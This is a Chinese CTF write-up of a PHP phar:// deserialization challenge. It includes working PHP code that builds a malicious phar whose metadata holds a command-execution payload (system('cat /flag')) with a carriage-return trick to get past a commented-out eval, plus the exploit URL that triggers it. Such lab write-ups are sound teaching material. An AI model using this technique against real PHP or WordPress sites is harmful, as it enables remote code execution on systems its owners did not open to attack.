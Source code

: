 - 本题目是反序列化漏洞，但是没有看到反序列化`unserialize`函数    


查资料后了解到:   
>php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下
![受phar影响的函数](https://gitee.com/SSSSSHONE/ss/raw/master/1634557716_616d5f14f07e19096eb08.png)  

所以:
1. 可以上传一个`phar`文件，再用`file_exists`函数来触发反序列化    
2. 绕过被注释的`eval`可以用`\r`绕过  
- 关于`\r`和`\n`:
  | \r | \n |
  |:----:|:----:|
  | %0d | %0a |
  | 将当前位置移到本行开头。又叫**回车**，对应键盘上的return键 | 将当前位置移到下一行开头。又叫**换行**，newline |

根据要求我们自己构建一个`phar`文件，文件内的`Metadata`部分放上我们要反序列化的内容  
- 文章提示：要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件
```php
<?php
class Evil
{
    public $cmd="\rsystem('cat /flag');";
}
 
$pop = new Evil();
 
$phar = new Phar("test1.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER(); ?>");
 
$phar -> setMetadata($pop);
 
$phar -> addFromString("test.txt", "test");
$phar -> stopBuffering();
```
修改`php.ini`文件后运行代码依旧报错：  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241105195307.png)  
尝试了很多方法，发现虽然修改了`php.ini`文件，但使用`php -i | findstr "phar.readonly"`命令来检查状态还是返回了`phar.readonly => On => On`证明还是没有修改成功  
直到看到文章[解决 ‘phar.readonly‘ 设置为 ‘On‘ 的问题](https://blog.csdn.net/tombosky/article/details/133993053)，才发现分号也要删(bushi没人说啊   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241105192230.png)  
这次代码成功运行，上传生成的文件并访问得到flag:   
payload: `http://6f9176ff-d2de-4247-8878-e2acf7bff587.node5.buuoj.cn:81/class.php?file=phar://upload/daf280af792fd5b906511363ae2bc39d.gif`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241105200125.png)  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241105192959.png)   
## cms
在上一道phar反序列的题目也提到了cms [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)  
>wordpress是网络上最广泛使用的cms，这个漏洞在2017年2月份就报告给了官方，但至今仍未修补。之前的任意文件删除漏洞也是出现在这部分代码中，同样没有修补。根据利用条件，我们先要构造phar文件
